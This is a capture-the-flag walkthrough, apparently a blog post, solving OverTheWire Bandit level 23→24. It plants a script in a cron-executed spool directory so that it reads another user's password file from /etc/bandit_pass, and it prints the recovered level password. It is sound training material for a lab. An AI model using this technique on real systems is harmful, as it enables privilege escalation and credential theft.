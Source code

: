 ```yaml
---
title: "OverTheWire: Bandit Level 23 → Level 24"
description: "The Bandit wargames are aimed at absolute beginners. It will teach the basics needed to be able to play other wargames."
date: 2021-03-17 10:22:25 +0530
categories:
  - Security
  - OverTheWire
tags:
  - overthewire
  - bandit
  - ctf
  - security
  - linux
published: true
media_subpath: /assets/
---
```


![banner-image|640](images/bandit-0/overthewire-banner.png)

## Level Goal

> A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.  
> **NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  
> **NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

> cron, crontab, crontab(5) (use "man 5 crontab" to access this)

```
> whatis cron  
cron (8)         - daemon to execute scheduled commands (Vixie Cron)

> whatis crontab  
crontab (1)      - maintain crontab files for individual users (Vixie Cron)  
crontab (5)      - tables for driving cron
```

## Helpful Reading Material

[Linux/Mac Tutorial: Cron Jobs - How to Schedule Commands with crontab - YouTube](https://www.youtube.com/watch?v=QZJ1drMQz1A)

[shellmagic.xyz - This website is for sale! - shellmagic Resources and Information.](https://shellmagic.xyz/)

[Classic SysAdmin: Understanding Linux File Permissions - Linux Foundation](https://www.linux.com/training-tutorials/understanding-linux-file-permissions/)

[Timeout Command in Linux \| Linuxize](https://linuxize.com/post/timeout-command-in-linux/)

## Solution

Since we know there is a task that is being executed by cron let's have a look at all the cron jobs on the system

```
bandit23@bandit:~$ ls /etc/cron.d/  
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
```

Since we require the password for bandit24 the task that we are looking for should be `cronjob_bandit24`

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

When we look at the contents of the file we see that there is a script that is executed on the system every minute. We can also see that bandit24 is the owner of the file.

**Note:** The @reboot is a special keyword that is used by Cron to run a job when the system is rebooted.

Let's have a look at the contents of the script and try to understand what is it trying to perform

```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Let's break down the script line by line:

*   The output of `whoami` command is getting saved in a variable called `myname` (Since this script is being executed by bandit24 the output of `whoami` will be `bandit24` which is saved in the `myname` variable)
*   A folder called `bandit24` exists in the `/var/spool` directory. The working directory is changed to this folder.
*   Then a statement saying all the scripts that are present in the folder `/var/spool/bandit24` is being deleted is printed.
*   For loop is used to iterate through all the files in the directory (.\* : All files in current working directory)
*   A check is made to see if the currently selected file is called `.` or `..` if not then the rest of the code is executed. ("." means the current directory (bandit24) and ".." means the parent directory (spool))
*   The name of the currently selected file is printed and then the information about the owner of the file is saved in the variable "owner".
*   A check is made to check if the owner of the currently selected file is "bandit23". If it is then the currently selected file is executed and sent the KILL signal after waiting for 60 seconds and then deleted (-s flag in timeout command is used to specify the signal to send to the command "9" is an alias for the KILL command)

So from this, we understand that whatever file is saved in the folder "bandit24" gets executed and if the file was created by "bandit23" then after 60 seconds of execution the file is deleted. If we want the password for "bandit24" we need to write a script that will be executed from the bandit24 folder. The script that we write should get the password and save it in a location that we can access (`/tmp` directory)

Let's make a folder in the `/tmp` directory and use that as the base location for all the operations from here on out.

```
bandit23@bandit:~$ mkdir /tmp/rand

bandit23@bandit:~$ cd /tmp/rand
```

Create a file called `script.sh` using Vim or any other editor on the system and write the following code in the file.

```
#!/bin/bash  
cat /etc/bandit_pass/bandit24 > /tmp/rand/password
```

Since the output of the script is going to be saved in a file called `password` let's create a file with that name as well.

```
touch password
```

The cron job is executed by user bandit24 so when the job executes our script it is also going to have the permission of bandit24 which is not the same permission as we have because of this when the script tries to write output to the file called "password" it will fail so let's change the permission of all the files in the current folder so that any user can access them.

```
chmod 777 -R /tmp/rand
```

Finally, let's copy the script in the `bandit24` folder from where the cron job should execute our file.

```
cp script.sh /var/spool/bandit24
```

![Ls Command|420](images/bandit-23-24/ls-command.png)

After waiting for about a minute we should see that some data has been written into the password file. Let's view the content of this file.

```
bandit23@bandit:/tmp/rand$ cat password   
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

We have found the password !!

Logout of the current session and login into the next level as bandit24

```
> ssh bandit24@bandit.labs.overthewire.org -p 2220                                                                                                         

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```